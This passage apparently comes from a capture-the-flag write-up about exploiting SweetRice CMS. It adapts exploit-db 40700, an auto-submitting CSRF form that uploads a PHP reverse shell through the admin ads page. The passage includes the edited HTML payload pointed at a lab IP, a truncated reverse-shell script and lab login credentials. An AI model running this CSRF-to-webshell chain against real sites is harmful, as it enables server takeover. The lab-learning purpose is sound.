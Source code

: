 We see that it opens an `html` page and has a form called `exploit`. This form has an input that is hidden and inside it is `PHP` code. This input has a name `hacked` that will be used to reference it later. Once this page loads, it automatically submits this form as we can see in the `<body onload>` tag.

The 'hack' we post will be added in the ads section of the admin page as stated in the description at the top of the exploit.

We can see that we can access whatever we uploaded at the end by adding `/inc/ads/<name>` to the URL, which in this case is `hacked`.

#### Exploit:

1. Change the payload above to suit our needs:

```shell
cp /usr/share/exploitdb/exploits/php/webapps/40700.html ./
```
> Move it first to the directory where we are working.

```shell
sudo chmod +777 40700.html
```
> So we can edit and use it comfortably.

* Change `localhost/sweetrice` to `10.10.223.177/content` as this is the directory that has sweetrice on the target machine.
```html
<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.223.177/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
```

* Add the `PHP` code that gives us a reverse shell in the `<textarea>` tag. Used the `php-reverse-shell.php` shell found in `/usr/share/webshells`. Make sure to change the IP address to the attacking machine.
```HTML
<textarea type="hidden" name="adv">
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
... ... ... ...
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string\n";
    }
  }
  ?>   
&lt;/textarea&gt;
</form>
```

2. Upload this payload:

```shell
firefox 40700.html
```
> This opens this HTML file, but it requires us to log in. We have the `manager:Password123` credentials.
